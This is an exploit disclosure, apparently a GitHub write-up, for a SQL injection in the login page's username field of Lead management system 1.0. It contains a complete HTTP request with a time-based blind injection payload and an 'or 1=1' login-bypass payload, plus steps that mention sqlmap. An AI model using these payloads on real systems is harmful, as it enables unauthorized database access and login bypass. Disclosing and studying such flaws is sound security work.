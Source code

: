 ```yaml
---
typora-root-url: ./images
---
```


# Lead management system - login.php 'username' SQL inject

#### Exploit Title: Lead management system - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

#### Software Link:https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

#### Version: Lead management system 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Lead management system does not filter the content correctly at the "login.php /username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.67.10:8091
Content-Length: 97
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g1diqn5ba9l5npktcpl5jc287t
Connection: close

username=1' AND (SELECT 6691 FROM (SELECT(SLEEP(5)))slLY) AND 'lrcD'='lrcD&password=123456&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

![](/login.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![](/code.png)

3、Use payload "sleep (5)" for blind SQL injection.It is found that the time blind injection is successful

![](/timesql.png)

4、We can also construct a payload for universal password login

payload:`username=1'or 1=1 #&password=123456&login=`

、![](/loginwithanyuser.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![](/sqlmap.png)

